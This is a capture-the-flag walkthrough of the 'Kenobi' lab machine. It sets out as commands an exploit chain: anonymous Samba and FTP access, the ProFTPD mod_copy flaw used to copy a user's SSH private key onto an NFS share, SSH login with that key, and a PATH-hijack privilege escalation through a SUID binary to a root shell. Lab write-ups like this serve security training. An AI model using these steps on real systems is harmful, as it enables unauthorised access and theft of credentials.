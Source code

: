 Kenobi
======

Kenobi is an interesting CTF, based on how the challenge is situated towards having a better idea of abusing lack of absolute path names and understanding technologies like FTP and Samba.

We start off with an nmap scan with a command that looks like this:

```
nmap -Pn -v -sV -sC <TARGET_IP>
```

![Image](images/1.png)

FTP and Samba are frequently misconfigured and can be an attack vector. SSH being enabled allows us a way to connect to the server with ease and an rpcbind port means that we can call upon a service in the network (in this case nfs).

Lets start with Samba first, use the following command to list the shares in the server:

```
smbclient -L <TARGET_IP>
```

![Image](images/2.png)

We can see that we have IPC$ and anonymous which brings the idea of anonymous login. You can log in anonymously using the following command:

```
smbclient //<TARGET_IP>/anonymous
```

Once you're in the server, you can list the contents with `ls` and notice there is a log.txt in the share. You can download the file with `get log.txt` and read it with `cat log.txt`.

Here you see the following information which is very interesting:

>Your identification has been saved in /home/kenobi/.ssh/id_rsa.
>Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
>
>  `#` We want clients to be able to login with "anonymous" as well as "ftp"
>  UserAlias			anonymous ftp

This tells us that FTP has anonymous login and where SSH private key is located. We also know that the NFS version is ProFTPD 1.3.5 which specifically has a mod_copy vulnerability. On looking this up, we see this https://www.cvedetails.com/cve/CVE-2015-3306/ where this line is present:

>The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands.

We can look up what CPFR and CPTO does in this website: http://www.proftpd.org/docs/contrib/mod_copy.html

>SITE CPFR command specifies the source file/directory to use for copying from one place to another directly on the server.
>
>The syntax for SITE CPFR is:  
>
>  SITE CPFR source-path
>
>SITE CPTO command specifies the destination file/directory to use for copying from one place to another directly on the server.
>
>The syntax for SITE CPTO is:
>
>  SITE CPTO destination-path 

Now, we have to look into where we can actually place our copied file to. We can use the NFS here to mount a directory and try to get the id_rsa but we still need to figure out where the NFS is set up. So we use nmap to see if we can find the filepath:

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount
```

We see that the NFS mount is the `/var` directory. So we have found our destination.

So, we can connect to the computer's FTP interface using this command:

```
nc <TARGET_IP> 21
```

So once you're connected, you can try something like this:

```
SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```

![Image](images/3.png)

We can now try mounting a directory to the file system and recieve the private key with this set of commands:

```
sudo mkdir /mnt/<MOUNT_NAME>

sudo mount <TARGET_IP>:/var /mnt/<MOUNT_NAME>

ls -la /mnt/<MOUNT_NAME>

cp /mnt/<MOUNT_NAME>/tmp/id_rsa ~/ 

chmod 600 id_rsa
```

Now we can try connecting to the target using SSH with this command:

```
ssh -i id_rsa <TARGET_IP> -l kenobi
```

The first flag should be in `/home/kenobi/user.txt`

To escalate your privilege we need to find something that will let us execute commands as root or let us figure out how to log in as root. We can't do `sudo -l` as we don't know kenobi's password. So our next best shot is SUID permission. We can find SUID files with this command:

```
find / -perm -4000 -user root -exec ls -ld {} \; 2>/dev/null
```

We see an executable called `/usr/bin/menu` which seems interesting. On running it, it gives you 3 options, specifically: `status check`(Seeing if the website is on), `kernel version`, `ifconfig`. We can try to see what the binary has to tell with the `strings /usr/bin/menu` and we get this information:

>curl -I localhost
>uname -r
>ifconfig

This shows us that the executable does not use absolute paths, which means we can make an executable called `curl` which runs `/bin/bash` and the command will run it as such (We need to add the file to $PATH first, but thats not an issue) 

You can achieve this with this set of commands:

```
echo /bin/bash > curl

chmod 777 curl

PATH=/home/kenobi:$PATH

menu
```

Here, we just enter `1` and you will get a root shell. The last flag can be found in `/root/root.txt`
